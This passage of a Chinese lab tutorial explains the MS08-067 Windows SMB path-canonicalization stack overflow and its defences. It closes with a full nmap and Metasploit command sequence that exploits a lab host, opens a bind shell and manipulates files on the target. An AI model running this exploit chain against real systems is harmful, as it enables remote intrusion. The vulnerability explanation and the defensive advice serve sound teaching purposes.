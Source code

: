 *   https://www.cnblogs.com/justforfun12/p/5239941.html
    
*   https://bbs.pediy.com/thread-251219.htm
    
*   https://www.freebuf.com/vuls/203881.html
    

MS08-067 漏洞是通过 MSRPC over SMB 通道调用 Server 服务程序中的 NetPathCanonicalize 函数时触发的，而 NetPathCanonicalize 函数在远程访问其他主机时，会调用 NetpwPathCanonicalize 函数，对远程访问的路径进行规范化，而在 NetpwPathCanonicalize 函数中发生了栈缓冲区内存错误，造成可被利用实施远程代码执行。

```
所谓路径规范化，就是将路径字符串中的【/】转换为【\】，同时去除相对路径【.\】和【..\】。如：
**/*/./**   =>  **\*\**
**\*\..\**  =>  **\**
```

在路径规范化的操作中，服务程序对路径字符串的地址空间检查存在逻辑漏洞。攻击者通过精心设计输入路径，可以在函数去除【…\】字符串时，把路径字符串中内容复制到路径串之前的地址空间中（低地址），达到覆盖函数返回地址，执行任意代码的目的。

这里通过 IDA Pro 打开 c:\windows\system32\ netapi32.dll，找到漏洞所在的 NetpwPathCanonicalize 函数并双击。通过观察其流程图 CFG 可知，此函数并没有直接进行输入路径和规范化，而是调用了下级函数 CanonicalizePathName 来进行路径整理，将待整理的路径字符串进行规范化，然后再保存到预先分配的输出路径缓冲区 buffer 中，最终造成缓冲区溢出漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNCqMibAJSADJLKzkMzbyszdHRoxViapHdX93MWI3o6ft9eHtF4hciaIH2A/640?wx_fmt=png)

五. 总结
=====

写到这里，这篇文章就介绍结束了，通过本次实验我们复现了 MS08-067 远程代码执行漏洞，涉及漏洞发现、验证漏洞、利用漏洞的完整过程，并利用 Metasploit 工具进行 shell 反弹及深入理解，希望对您有所帮助。如何进行防御呢？一方面关闭相关端口、安装杀毒软件和补丁，另一方面在防火墙中进行流量监测，主要是针对数据包中存在的形如 "\ ** \ … \ … \ *" 这样的恶意路径名进行检测，最为保险的方法是使用 pcre 正则去匹配。

本次实验的完整命令：

```
# 端口查询
nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open

# 查找漏洞利用模块
msfconsole
search ms08-067

# 漏洞利用
use exploit/windows/smb/ms08_067_netapi
show options
show targets

# 设置相关配置信息
set RHOST 192.168.44.135
set RPORT 445
set payload generic/shell_bind_tcp
set LHOST 192.168.44.136
set target 0
show options

# 反弹shell
exploit
session 1
ipconfig
pwd

# 目标主机文件操作
cd ..
mkdir hacker
dir
cd hacker
echo eastmount>test.txt
sysinfo
```